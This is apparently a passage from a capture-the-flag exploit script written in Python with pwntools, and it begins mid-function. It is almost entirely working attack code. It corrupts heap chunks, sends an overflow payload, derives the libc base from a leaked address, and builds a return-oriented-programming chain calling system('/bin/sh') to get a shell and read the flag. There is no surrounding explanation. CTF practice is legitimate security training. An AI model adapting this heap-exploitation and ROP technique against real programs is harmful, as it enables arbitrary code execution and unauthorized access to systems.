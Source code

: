 ````python
    cho2(2)
    io.sendlineafter(b'ndex', str(idx).encode())
    cho2(4)

def fight(con):
    cho(1)
    io.sendlineafter(b'shou', con)

def show():
    cho(4)

def train():
    cho(2)

add(5, 0x600, b'555')
add(0, 0x77, b'1' * 0x70 + p64(0xa0))
rm(5)
add(5, 0x5e0, b'555')
add(6, 0x600, b'666')

payload1 = b'a' * 259 + b'\x17' + b'\x59' 
fight(payload1) 

show()
io.recvuntil(b'[Attack]: ')
libc_leak = int(io.recvuntil(b'\n'))
log.info(f'libc leak: {hex(libc_leak)}')
libc_base = libc_leak - (0x7a4d71403b30 - 0x7a4d71200000)
log.info(f'libc base: {hex(libc_base)}')

for i in range(8): # 头部写成 0xa1
    train()

pop_rdi = libc_base + 0x000000000010f75b
retn = pop_rdi + 1
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh')) 

payload2 = b'a' * 0x28
payload2 += p64(retn) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)

add(9, 0x10, b'999') # 申回构造堆并修改
rm(9)
add(9, 0x90, payload2)

cho(1145)
io.sendline(b'cat flag')

##################################################################


io.interactive()
````
